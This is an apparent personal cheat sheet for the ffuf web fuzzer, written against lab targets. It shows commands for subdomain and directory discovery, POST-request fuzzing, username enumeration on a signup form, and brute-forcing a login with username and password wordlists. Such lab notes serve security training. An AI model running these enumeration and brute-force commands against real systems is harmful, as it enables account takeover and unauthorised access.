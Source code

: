 ```yaml
---
title: FUFF
description:  Fuzz Faster U Fool is an open-source web fuzzing tool designed for discovering hidden files and directories on web servers by employing brute-force techniques
---
```


## Subdomains
```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.15.249 -fs 2395 
```
- `-fs` filters size of responses (may need to check first)

## Directories
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u  http://10.0.2.15/FUZZ
```
- `-recursion` : Adds recursion : set to true
- `-recursion-depth` : How many levels? : 0-x
- `-fc` : Filters HTTP status codes (i.e redirects)

## POST Requests
1. Run this first to see the size of the request
```bash
ffuf -request req.txt -request-proto http -w /usr/share/wordlists/fasttrack.txt
```
2. And then run this to filter the size you don't want
```bash
ffuf -request req.txt -request-proto http -w /usr/share/wordlists/fasttrack.txt -fs 1814
```

## Usernames
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.75.26/customers/signup -mr "username already exists"
```
- `-w` selects the file's location on the computer that contains the list of usernames that we're going to check exists. 

- `-X` specifies the request method, this will be a GET request by default, but it is a POST request in our example. 

- `-d` specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. 

We've set the value of the username to FUZZ. 
In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. 

- `-H` is used for adding additional headers to the request. In this instance, we're setting the Content-Type so the web server knows we are sending form data. 

- `-u` specifies the URL we are making the request to, and finally, 

- `-mr`  is the text on the page we are looking for to validate we've found a valid username.

## Bruteforce Login

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.75.26/customers/login -fc 200
```
In this instance, we've chosen `W1` for our list of valid usernames and `W2` for the list of passwords we will try. 
The multiple wordlists are again specified with the `-w` argument but separated with a comma.  

For a positive match, we're using the `-fc` argument to check for an HTTP status code other than 200.

## Resources
- [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf)